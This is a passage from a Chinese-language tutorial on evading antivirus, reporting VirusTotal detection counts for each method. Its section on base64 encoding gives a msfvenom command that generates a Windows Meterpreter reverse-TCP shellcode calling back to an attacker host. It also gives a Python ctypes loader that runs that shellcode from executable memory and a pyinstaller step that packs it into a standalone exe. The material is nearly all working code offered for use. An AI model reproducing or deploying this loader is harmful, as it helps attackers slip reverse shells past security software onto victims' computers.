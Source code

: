 virustotal.com中10/69个报毒

![e7467c1fcb0218b6b524eb644ac493e1](images/2020.04-bypass-05/9.png)

## 2.3 方法3：base64编码(VT免杀率16/70)

和2.1方法一样，先生成shellcode。

先用msfvenom生成shellcode，记得要用base64编码:
```
msfvenom -p windows/meterpreter/reverse_tcp --encrypt base64  LHOST=10.211.55.2 LPORT=3333   -f c
```
python代码如下：

```
import ctypes
import base64

encode_shellcode = ""

shellcode = base64.b64decode(encode_shellcode)

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```
使用pyinstaller编译打包exe，生成文件大小3.4M
```
python pyinstaller.py -F -w pyshellcode.py
```
